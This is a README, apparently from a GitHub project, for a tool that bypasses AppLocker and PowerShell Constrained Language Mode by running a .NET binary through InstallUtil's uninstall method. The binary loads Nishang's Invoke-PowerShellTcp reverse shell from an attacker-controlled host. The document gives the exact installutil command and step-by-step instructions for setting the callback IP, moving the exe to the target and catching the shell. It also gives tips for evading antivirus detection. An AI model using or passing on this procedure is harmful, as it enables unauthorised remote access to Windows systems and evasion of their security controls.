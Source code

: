 ## Bypass for Applocker and Powershell Constrained Language Mode via InstallUtil Uninstaller Method to run Nishang Invoke-PowerShellTcp.ps1

----


## Usage

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe  /LogToConsole=true /U C:\Users\root\Desktop\installdamn.exe
			
Steps

  1)Build the project after changing the ip (lhost , ip youre serving the shellcode from) and script name ("damn" , change the name to name of your Invoke-PowerShellTcp.ps1 instance )
  2)Transfer the build exe to the rhost 
  3)run the listener on lhost to the configured port on Invoke-PowerShellTcp.ps1 instance
  4)Run the executable using InstallUtil -  C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe  /LogToConsole=true /U C:\Users\root\Desktop\installdamn.exe
  5)Check on the lhost http server for a call back and your listener		
						
```

## Compile Instructions

This Project has been built against .NET 4.0 x64 and is compatible with [Visual Studio 2019 Community Edition]. Simply open up the project .sln, choose "release", and build before the required changes
.

## Notes
* when testing on a windows machine , disable the "Cloud Delivered Protection"
* Use https://antiscan.me/ instead of virus total if you wanna validate the signatures
* You could run any code to bypass Applocker and Powershell constrained language mode via "public class SharpUp : System.Configuration.Install.Installer" method change the "damn" script to the the powershell .ps1 script , you wanna run

## Shout Out

[nikhil_mitt](https://twitter.com/nikhil_mitt)

* https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1




